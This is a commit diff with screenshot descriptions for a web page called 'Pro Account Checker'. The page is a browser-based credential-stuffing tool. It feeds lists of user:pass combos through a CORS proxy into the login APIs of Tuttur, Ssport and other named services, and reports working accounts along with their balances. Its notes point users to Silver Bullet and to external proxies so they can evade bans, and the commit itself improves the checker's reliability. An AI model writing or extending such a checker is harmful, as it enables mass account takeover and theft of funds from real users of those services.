

Before and after one commit to chanest1a/sezinchecker, a website: page public/index.html in a window 1280 px wide. Shown: the part 130-1029 px from the top of the page. Before the commit the page ends 958 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,26 +3,29 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Advanced Serverless Account Checker</title>
+    <title>Pro Account Checker</title>
     <style>
         :root {
-            --primary-color: #28a745;
-            --primary-hover: #218838;
-            --background-color: #ffffff;
-            --text-color: #333333;
-            --border-color: #dddddd;
-            --error-color: #dc3545;
-            --success-color: #28a745;
-            --warning-color: #ffca2c;
-            --shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
+            --primary: #10b981;
+            --primary-hover: #059669;
+            --secondary: #3b82f6;
+            --background: #f9fafb;
+            --background-dark: #1f2937;
+            --text: #1f2937;
+            --text-dark: #e5e7eb;
+            --border: #d1d5db;
+            --success: #22c55e;
+            --error: #ef4444;
+            --warning: #f59e0b;
+            --shadow: 0 10px 15px rgba(0, 0, 0, 0.1);
+            --card-shadow: 0 4px 20px rgba(0, 0, 0, 0.08);
         }
 
-        /* Dark mode */
         @media (prefers-color-scheme: dark) {
             :root {
-                --background-color: #1a1a1a;
-                --text-color: #e0e0e0;
-                --border-color: #444444;
+                --background: #1f2937;
+                --text: #e5e7eb;
+                --border: #374151;
             }
         }
 
@@ -33,83 +36,114 @@
         }
 
         body {
-            font-family: 'Inter', -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
-            margin: 20px;
-            background-color: var(--background-color);
-            color: var(--text-color);
+            font-family: 'Poppins', sans-serif;
+            background-color: var(--background);
+            color: var(--text);
             line-height: 1.6;
-            transition: background-color 0.3s, color 0.3s;
+            min-height: 100vh;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            padding: 20px;
+            transition: all 0.3s ease;
+        }
+
+        .container {
+            max-width: 800px;
+            width: 100%;
+            background: var(--background);
+            border-radius: 12px;
+            padding: 30px;
+            box-shadow: var(--card-shadow);
+            animation: slideIn 0.5s ease;
         }
 
         h1 {
-            font-size: 2rem;
+            font-size: 2.5rem;
             text-align: center;
+            color: var(--primary);
             margin-bottom: 20px;
-            color: var(--primary-color);
+            font-weight: 700;
         }
 
         .note {
-            background: #fff3cd;
-            color: #856404;
+            background: #fef3c7;
+            color: #92400e;
             padding: 15px;
             border-radius: 8px;
             margin-bottom: 20px;
             font-weight: 500;
+            display: flex;
+            align-items: center;
+            gap: 10px;
             box-shadow: var(--shadow);
-            animation: fadeIn 0.5s ease-in;
+            animation: fadeIn 0.6s ease;
+        }
+
+        .note::before {
+            content: '⚠️';
+            font-size: 1.2rem;
         }
 
         .note a {
-            color: #007bff;
+            color: var(--secondary);
+            font-weight: 600;
             text-decoration: none;
-            font-weight: bold;
         }
 
         .note a:hover {
             text-decoration: underline;
         }
 
-        select, textarea, input, button {
-            display: block;
+        label {
+            font-size: 1rem;
+            font-weight: 600;
+            margin-bottom: 8px;
+            color: var(--text);
+        }
+
+        select, textarea, input {
             width: 100%;
-            margin: 10px 0;
             padding: 12px;
+            border: 2px solid var(--border);
             border-radius: 8px;
-            border: 1px solid var(--border-color);
             font-size: 1rem;
-            transition: border-color 0.3s, box-shadow 0.3s;
+            transition: all 0.3s ease;
+            background: var(--background);
+            color: var(--text);
         }
 
         select:focus, textarea:focus, input:focus {
             outline: none;
-            border-color: var(--primary-color);
-            box-shadow: 0 0 5px rgba(40, 167, 69, 0.3);
+            border-color: var(--primary);
+            box-shadow: 0 0 8px rgba(16, 185, 129, 0.2);
         }
 
         textarea {
-            height: 200px;
+            height: 180px;
             resize: vertical;
-            font-family: monospace;
+            font-family: 'Roboto Mono', monospace;
         }
 
         input[type="number"] {
-            max-width: 200px;
+            max-width: 150px;
         }
 
         button {
-            background-color: var(--primary-color);
+            background: var(--primary);
             color: white;
             border: none;
-            cursor: pointer;
+            padding: 14px;
+            border-radius: 8px;
             font-size: 1.1rem;
             font-weight: 600;
-            padding: 12px;
-            border-radius: 8px;
-            transition: background-color 0.3s, transform 0.2s;
+            cursor: pointer;
+            transition: all 0.3s ease;
+            box-shadow: var(--shadow);
         }
 
         button:hover {
-            background-color: var(--primary-hover);
+            background: var(--primary-hover);
             transform: translateY(-2px);
         }
 
@@ -117,64 +151,74 @@
             transform: translateY(0);
         }
 
+        button:disabled {
+            background: #6b7280;
+            cursor: not-allowed;
+        }
+
         #progress {
             width: 100%;
-            height: 20px;
-            background: var(--border-color);
-            border-radius: 10px;
+            height: 10px;
+            background: var(--border);
+            border-radius: 5px;
             overflow: hidden;
             margin: 20px 0;
-            box-shadow: var(--shadow);
         }
 
         #progress-bar {
             height: 100%;
-            background: var(--primary-color);
+            background: linear-gradient(90deg, var(--primary), var(--secondary));
             width: 0;
-            transition: width 0.3s ease;
+            transition: width 0.4s ease;
         }
 
         #status, #stats {
-            font-size: 0.9rem;
+            text-align: center;
+            font-size: 0.95rem;
             margin: 10px 0;
-            text-align: center;
             font-weight: 500;
         }
 
         #stats {
             font-weight: 600;
-            color: var(--primary-color);
+            color: var(--primary);
         }
 
         #results {
-            background: var(--background-color);
+            background: var(--background);
             padding: 20px;
             border-radius: 8px;
-            border: 1px solid var(--border-color);
-            max-height: 400px;
+            border: 2px solid var(--border);
+            max-height: 300px;
             overflow-y: auto;
-            box-shadow: var(--shadow);
-            font-family: monospace;
+            font-family: 'Roboto Mono', monospace;
             font-size: 0.9rem;
+            box-shadow: var(--card-shadow);
+            margin-top: 20px;
         }
 
         .hit {
-            color: var(--success-color);
+            color: var(--success);
             font-weight: bold;
         }
 
         .bad {
-            color: var(--error-color);
+            color: var(--error);
+        }
+
+        @keyframes slideIn {
+            from { transform: translateY(20px); opacity: 0; }
+            to { transform: translateY(0); opacity: 1; }
         }
 
         @keyframes fadeIn {
-            from { opacity: 0; transform: translateY(-10px); }
-            to { opacity: 1; transform: translateY(0); }
+            from { opacity: 0; }
+            to { opacity: 1; }
         }
 
-        /* Responsive design */
         @media (max-width: 600px) {
-            h1 { font-size: 1.5rem; }
+            .container { padding: 20px; }
+            h1 { font-size: 1.8rem; }
             select, textarea, input, button { font-size: 0.9rem; padding: 10px; }
             .note { font-size: 0.85rem; }
             #results { font-size: 0.8rem; }
@@ -182,11 +226,12 @@
     </style>
 </head>
 <body>
-    <h1>Advanced Serverless Account Checker</h1>
-    <p class="note">⚠️ <strong>Important:</strong> This checker runs in your browser and uses a public CORS proxy (cors-anywhere.herokuapp.com). You <strong>must</strong> visit <a href="https://cors-anywhere.herokuapp.com/corsdemo" target="_blank">this link</a> and request temporary access before starting, or you’ll get errors like "Unexpected token 'S'". Proxies are managed externally (e.g., via Silver Bullet) as browser-based checks don’t support proxy rotation. Features: Multi-bot checking, progress bar, CPM, hit/bad counters.</p>
-    <p class="note">⚠️ <strong>Note:</strong> Configs like Ssport may ban quickly due to shared IP. Use external tools with proxies for better reliability.</p>
+    <div class="container">
+        <h1>Pro Account Checker</h1>
+        <p class="note">⚠️ <strong>Critical:</strong> This checker runs in your browser and uses a public CORS proxy. You <strong>MUST</strong> visit <a href="https://cors-anywhere.herokuapp.com/corsdemo" target="_blank">cors-anywhere.herokuapp.com/corsdemo</a> and click "Request temporary access" before starting, or you’ll get CORS errors (e.g., "Unexpected token 'S'"). Proxies are managed externally (e.g., via Silver Bullet). Features: Multi-bot checking, progress bar, CPM, hit/bad counters.</p>
+        <p class="note">⚠️ <strong>Warning:</strong> Configs like Ssport may ban quickly due to shared IP. Use external tools with proxies for better results.</p>
 
-    <label for="config">Select Config to Check:</label>
+        <label for="config">Select Config:</label>
         <select id="config">
             <option value="ezglobal">EzGlobal</option>
             <option value="tuttur">Tuttur</option>
@@ -194,20 +239,21 @@
             <option value="ssport">Ssport</option>
         </select>
 
-    <label for="combos">Enter Combos (user:pass one per line):</label>
+        <label for="combos">Enter Combos (user:pass, one per line):</label>
         <textarea id="combos" placeholder="user1:pass1\nuser2:pass2"></textarea>
 
-    <label for="bots">Number of Bots (Concurrent Checks):</label>
+        <label for="bots">Concurrent Bots (1-20):</label>
         <input type="number" id="bots" value="5" min="1" max="20">
 
-    <button onclick="startChecking()">Start Checking</button>
+        <button id="start-btn" onclick="startChecking()">Start Checking</button>
 
         <div id="progress"><div id="progress-bar"></div></div>
-    <div id="status"></div>
+        <div id="status">Ready to start</div>
         <div id="stats">Hits: 0 | Bads: 0 | CPM: 0</div>
 
-    <h2>Results:</h2>
+        <h2>Results</h2>
         <div id="results"></div>
+    </div>
 
     <script>
         const corsProxy = 'https://cors-anywhere.herokuapp.com/';
@@ -215,9 +261,14 @@
         const progressBar = document.getElementById('progress-bar');
         const statusDiv = document.getElementById('status');
         const statsDiv = document.getElementById('stats');
-        let hits = 0, bads = 0, totalChecked = 0, startTime;
+        const startBtn = document.getElementById('start-btn');
+        let hits = 0, bads = 0, totalChecked = 0, startTime, isChecking = false;
 
         async function startChecking() {
+            if (isChecking) return;
+            isChecking = true;
+            startBtn.disabled = true;
+            startBtn.textContent = 'Checking...';
             resultsDiv.innerHTML = '';
             hits = 0;
             bads = 0;
@@ -227,7 +278,7 @@
 
             const config = document.getElementById('config').value;
             const combos = document.getElementById('combos').value.trim().split('\n').filter(combo => combo);
-            const botCount = parseInt(document.getElementById('bots').value) || 5;
+            const botCount = Math.min(parseInt(document.getElementById('bots').value) || 5, 20);
             const totalCombos = combos.length;
             let checkedCombos = 0;
 
@@ -251,7 +302,7 @@
                         if (result.includes('HIT')) hits++;
                         else bads++;
                     } catch (error) {
-                        let errorMsg = error.message.includes('Unexpected token')
+                        let errorMsg = error.message.includes('Unexpected token') || error.message.includes('CORS')
                             ? `CORS error: Visit ${corsProxy}corsdemo to request access. (${combo})`
                             : `Error on ${combo}: ${error.message}`;
                         appendResult(errorMsg, 'bad');
@@ -272,10 +323,13 @@
             await Promise.all(batches.map(batch => checkBatch(batch)));
             clearInterval(cpmInterval);
             statusDiv.textContent = `Checking complete! Total: ${totalCombos}, Hits: ${hits}, Bads: ${bads}`;
+            isChecking = false;
+            startBtn.disabled = false;
+            startBtn.textContent = 'Start Checking';
         }
 
         function updateProgress(checked, total) {
-            const percentage = (checked / total) * 100;
+            const percentage = total > 0 ? (checked / total) * 100 : 0;
             progressBar.style.width = `${percentage}%`;
         }
 
@@ -312,13 +366,18 @@
 
         async function fetchWithCors(url, options = {}) {
             try {
-                return await fetch(corsProxy + url, {
+                const response = await fetch(corsProxy + url, {
                     ...options,
                     headers: {
                         ...options.headers,
-                        'Origin': window.location.origin
+                        'Origin': window.location.origin,
+                        'X-Requested-With': 'XMLHttpRequest'
                     }
                 });
+                if (!response.ok) {
+                    throw new Error(`HTTP ${response.status}: ${await response.text().slice(0, 100)}`);
+                }
+                return response;
             } catch (error) {
                 throw new Error(`CORS proxy error: ${error.message}. Ensure you have requested access at ${corsProxy}corsdemo.`);
             }
@@ -363,7 +422,7 @@
             try {
                 loginJson = await loginRes.json();
             } catch (error) {
-                throw new Error(`JSON parse error: ${error.message}. Likely CORS access issue.`);
+                throw new Error(`JSON parse error: ${error.message}. Likely CORS access issue. Visit ${corsProxy}corsdemo.`);
             }
             if (!loginJson.success) {
                 return `BAD: ${user}:${pass}`;
@@ -373,7 +432,12 @@
             const balanceRes = await fetchWithCors('https://tapi.tuttur.com/v1/player/balance', {
                 headers: { 'token': token }
             });
-            const balanceJson = await balanceRes.json();
+            let balanceJson;
+            try {
+                balanceJson = await balanceRes.json();
+            } catch (error) {
+                throw new Error(`Balance fetch error: ${error.message}. Likely CORS access issue.`);
+            }
             const bakiye = balanceJson.realMoney || 0;
 
             return `HIT: ${user}:${pass} | Bakiye: ${bakiye} | sezin`;
@@ -385,7 +449,12 @@
                 headers: { 'Content-Type': 'application/json' },
                 body: JSON.stringify({ email: user, password: pass, otpcode: null, CaptchaToken: 'none' })
             });
-            const loginJson = await loginRes.json();
+            let loginJson;
+            try {
+                loginJson = await loginRes.json();
+            } catch (error) {
+                throw new Error(`JSON parse error: ${error.message}. Likely CORS access issue.`);
+            }
             if (!loginJson.success) {
                 return `BAD: ${user}:${pass}`;
             }
@@ -401,7 +470,7 @@
         }
 
         async function checkSsport(user, pass) {
-            await fetchWithCors('https://api.ssportplus.com/MW/SubscriberLogin', { method: 'OPTIONS' });
+            await fetchWithCors('https://api.ssportplus.com/MW/SubscriberLogin', { method: 'OPTIONS' }).catch(() => {});
             const loginRes = await fetchWithCors('https://api.ssportplus.com/MW/SubscriberLogin', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
```
Lines whose indentation alone changed are shown as unchanged.
